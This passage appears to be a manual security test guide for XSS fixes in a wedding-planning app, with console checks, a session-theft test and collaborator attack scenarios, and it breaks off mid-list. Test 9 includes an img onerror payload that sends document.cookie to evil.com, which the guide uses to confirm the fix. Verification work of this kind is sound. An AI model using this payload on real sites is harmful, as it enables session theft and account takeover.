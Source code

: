 1. **Open** browser DevTools (F12)
2. **Navigate** to Console tab
3. **While testing**, watch for:
   - ❌ Script error messages
   - ❌ Uncaught exceptions
   - ❌ CSP violations (if CSP is implemented)
4. **Verify**:
   - ✅ No suspicious script execution
   - ✅ No network requests to external domains (except legitimate APIs)

---

## Test 9: Session Theft Verification

### Manual Code Review

1. **Test** with this payload:
   ```html
   <img src=x onerror="fetch('https://evil.com?token='+document.cookie)">
   ```
2. **Verify** it displays as text, NOT executing
3. **Check** browser Network tab:
   - ✅ NO request to evil.com
   - ✅ Session token not leaked

### What This Prevents

Before fixes:
- Attacker could steal session tokens
- Full account takeover possible
- Malicious actions on behalf of victims

After fixes:
- Payload displays as harmless text
- No session data exposed
- Users protected

---

## Test 10: Real-World Attack Scenarios

### Scenario A: Malicious Wedding Collaborator

1. **Invite** a second test user as partner
2. **As partner**, try injecting XSS in:
   - Chat messages
   - Task names (via AI chat)
   - Vendor names (via AI chat)
3. **As owner**, view all pages
4. **Verify** NO scripts execute

### Scenario B: Malicious Bestie
